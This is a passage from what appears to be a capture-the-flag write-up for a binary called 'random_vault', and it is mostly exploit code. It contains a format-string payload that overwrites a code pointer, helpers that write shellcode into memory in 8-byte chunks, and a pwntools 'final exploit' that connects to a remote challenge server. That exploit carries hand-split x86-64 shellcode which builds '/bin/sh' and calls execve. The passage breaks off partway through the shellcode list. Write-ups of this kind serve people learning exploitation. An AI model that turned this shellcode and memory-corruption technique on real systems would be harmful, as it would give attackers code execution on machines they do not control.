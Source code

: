 ```python
                                            # if it wasn't, we could just do pointer math to set the
                                            # address to the least significant bytes
payload += "P"*(8 - (len(payload) % 8))     # align the payload to 8 bytes, so the next two
                                            # addresses can be accessed
payload += p64(code_ptr_addr)               # this is the 28th value
payload += p64(current_time_addr)           # this is the 29th value
```

Now the only thing left to do is sending the shellcode, which can be done with

```python
def pack_shellcode(sc):
    return str(struct.unpack("<Q", ''.join([
        chr(x) for x in sc
    ]))[0])

def send_shellcode(s):
    send_command("2")
    for part in s:
        if len(part) > 8:
            raise Exception("Cannot write shellcode part with more than 8 bytes")
        part = part + [0xCC] * (8 - len(part))
        send_command(pack_shellcode(part))
    for i in range(7 - len(s)):
        send_command(breakpoints)
```

Final exploit:

```python
#!/bin/env python2
from pwn import *

context.terminal = ['alacritty', '-e', 'sh', '-c']

#p = process("./random_vault")

#gdb.attach(p, 'continue')

p = remote("200.136.252.34", 1245)

def pack_shellcode(sc):
    return str(struct.unpack("<Q", ''.join([
        chr(x) for x in sc
    ]))[0])

breakpoints = pack_shellcode([0xCC] * 8)

# EXECUTABLE_CODE buffer load:
#     15da:	48 8d 05 2f 3a 00 00 	lea    rax,[rip+0x3a2f]        # 5010 <stderr@@GLIBC_2.2.5+0x30>
#     15e1:	48 01 d0             	add    rax,rdx 
buffer_start_offset=0x15e1 + 0x3a2f
buffer_offsets = [
    352, 272, 160, 496, 472, 544, 408
]

shellcode = [
    [ 0x66, 0xc7, 0x47, 0x04, 0x2f, 0x73, 0xeb, 0x38 ],  # 352
    [ 0x66, 0xc7, 0x47, 0x06, 0x68, 0x00, 0xeb, 0x50 ],  # 272
    [ 0x48, 0x8d, 0x7c, 0x24, 0xf8, 0xeb, 0x70 ],        # 160
    [ 0xb0, 0x3b, 0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05 ],  # 496
    [ 0x66, 0xc7, 0x07, 0x2f, 0x62, 0xeb, 0x18 ],        # 472
    [ 0xcc, 0xce ],                                      # 544
```